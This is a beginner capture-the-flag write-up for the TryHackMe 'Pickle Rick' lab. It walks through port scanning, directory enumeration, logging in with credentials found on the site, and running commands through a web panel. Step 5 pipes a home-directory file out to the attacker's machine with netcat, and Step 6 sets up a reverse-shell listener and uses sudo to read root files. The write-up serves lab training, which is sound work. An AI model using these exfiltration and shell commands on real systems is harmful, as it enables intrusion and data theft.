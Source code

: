# Pickle Rick - TryHackMe Writeup

**Categories**: Web, Easy  
**Tags**: web, easy, nmap, dirsearch, netcat  
**Image**: images/Pickle Rick/Pickle Rick.png

This guide walks through solving the *Pickle Rick* TryHackMe challenge, a beginner-friendly CTF focused on web enumeration and shell techniques. Since TryHackMe machines use dynamic IPs, replace `<targetIP>` with the target machine's IP and `<yourIP>` with your attacking machine's IP.

## Step 1: Initial Reconnaissance with Nmap
Scan the target to identify open ports and services:  
```
nmap -Pn -sC -sV --min-rate=10000 <targetIP>
```

**Output**:  
- **Port 22 (SSH)**: Open, indicating potential SSH access.  
- **Port 80 (HTTP)**: Open, hosting a web server.

Visiting `http://<targetIP>` reveals a webpage with a challenge to find three "ingredients" (flags).

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_3.png)

## Step 2: Web Enumeration
Check the webpage's source code for clues, revealing a username: `R1ckRul3s`.  

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_4.png)

Run a directory scan using *dirsearch*:  
```
dirsearch -u http://<targetIP>
```

**Findings**:  
- `/robots.txt`: Contains `Wubbalubbadubdub`.  
- `/login.php`: A login page.

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_5.png)

## Step 3: Gaining Access
Log in using:  
- **Username**: `R1ckRul3s`  
- **Password**: `Wubbalubbadubdub`

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_6.png)

Upon login, a **Command Panel** allows command execution on the server.

## Step 4: Finding the First Ingredient
In the Command Panel, list files in `/var/www/html`. A file `Sup3rS3cretPickl3Ingred.txt` is present. Since `cat` is disabled, access it via the browser:  
```
http://<targetIP>/Sup3rS3cretPickl3Ingred.txt
```

This yields the **first ingredient**.

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_7.png)

## Step 5: Finding the Second Ingredient
Enumerate `/home/rick` via the Command Panel, finding `second ingredients`. Set up a *netcat* listener on your machine:  
```
nc -vnlp 9003 > file.txt
```

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_8.png)

In the Command Panel, send the file:  
```
/bin/sh | nc <yourIP> 9003 < /home/rick/'second ingredients'
```

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_9.png)

Read `file.txt` to obtain the **second ingredient**.

## Step 6: Escalating Privileges and Finding the Third Ingredient
Check *sudo* privileges in the Command Panel:  
```
sudo -l
```

**Output**: The user can run any command with *sudo* without a password.

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_10.png)

Set up a *netcat* listener on your machine:  
```
nc -vnlp 9003
```

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_11.png)

Once connected, spawn an interactive shell:  
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
or
bash -i
```

## Step 7: Locating the Third Ingredient

Alternatively, use *sudo* to read the file in `/root`:  
```
sudo cat /root/3rd.txt
```

## Summary
- **First Ingredient**: Found in `Sup3rS3cretPickl3Ingred.txt` via the browser.  
- **Second Ingredient**: Transferred from `/home/rick/'second ingredients'` using *netcat*.  
- **Third Ingredient**: Retrieved from  `/root/3rd.txt` via a reverse shell with *sudo* privileges.

This streamlined approach uses basic enumeration, web exploitation, and reverse shell techniques to efficiently complete the challenge.